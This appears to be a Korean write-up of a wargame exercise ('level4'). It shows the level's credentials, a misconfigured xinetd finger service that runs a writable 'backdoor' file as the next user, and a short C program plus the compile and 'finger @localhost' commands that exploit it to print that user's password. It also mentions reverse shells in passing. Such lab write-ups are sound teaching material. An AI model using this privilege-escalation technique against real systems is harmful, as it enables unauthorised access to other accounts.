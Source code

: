 # level 4

* id : `level4`
* pw : `suck my brain`

![](./img/2021-11-05-16-49-24.png)

우선 저 경로로 가보자
```
cd /etc/xinetd.d
ls -al
```
![](./img/2021-11-05-17-04-56.png)

딱봐도 백도어가 있다.

![](./img/2021-11-05-17-05-11.png)
```python
service finger  # 서비스 명
{
        disable = no  # 사용 유무
        flags           = REUSE # 해당 포트 재사용 여부
        socket_type     = stream # 소켓 타입
        wait            = no # 서비스가 연결된 상태에서 다른 요청 들어올 시 기다리는지 여부
        user            = level5 # 실행시 사용되는 유저
        server          = /home/level4/tmp/backdoor # 실행될 파일
        log_on_failure  += USERID # 로그 저장위치
}

```
`/home/level4/tmp/backdoor` 파일을 실행하는것을 볼수 있다.

![](./img/2021-11-05-17-07-26.png)

보시다시피 텅 비어있다. 여기에 bash쉘을 실행하도록 하는 코드를 짤려고 했으나

service로 돌아가면 interaction 이 불가능하므로 실패했다

[netcat, telnet 등을 이용한 reverse shell 등을 이용하면 가능하다고 한다.](https://geundi.tistory.com/59)

그렇기 때문에 우회적으로 패스워드를 출력하는 `my-pass`를 이용한다.

```
vim back.c
```
![](./img/2021-11-05-17-04-10.png)

```c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    system("my-pass");
}
```

```
gcc back.c
mv a.out backdoor
finger @localhost
```

참고로 이때 `finger`가 아닌 `finger @localhost`를 하는 이유는

뒤에 인자가 들어와야 프로그램이 실행되기 때문이다.

궃이 `@localhost` 가 아니라 `@127.0.0.1` 도 된다.


![](./img/2021-11-05-17-03-58.png)